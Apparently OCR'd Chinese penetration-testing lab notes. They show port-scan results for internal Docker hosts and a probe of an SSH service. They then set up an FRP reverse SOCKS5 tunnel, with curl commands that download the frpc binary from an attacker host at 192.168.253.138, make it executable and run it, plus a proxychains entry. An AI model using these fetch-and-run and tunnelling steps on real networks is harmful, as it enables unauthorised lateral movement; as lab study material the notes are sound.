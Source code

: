 ===============================
Port 22 is open
Port 8000 is open

===============================
Scanning 172.18.0.2

===============================
Port 80 is open

===============================
Scanning 172.18.0.3

===============================
Port 22 is open
Port 8022 is open

===============================
Scanning 172.18.0.4

===============================
Port 3306 is open

发现了8022端口在.3上：
curl -s 172.18.0.3:8022

<title>Docker-SSH</title>



==============================================================
FRP代理路：

1、下载frp

[common]
bind_addr = 0.0.0.0
bind_port = 7000


# frpc.ini
[common]
server_addr = 192.168.253.138
server_port = 7000
[http_proxy]
type = tcp
remote_port = 7777
plugin = socks5


curl -O http://192.168.253.138:8082/frpc
curl -# -O http://192.168.253.138:8082/frpc.ini
chmod +x frpc
./frps -c frps.ini  ---执行服务端
./frpc -c frpc.ini


搭建成功后，gedit /etc/proxychains4.conf
最后一行加上：socks5 192.168.253.138 7777
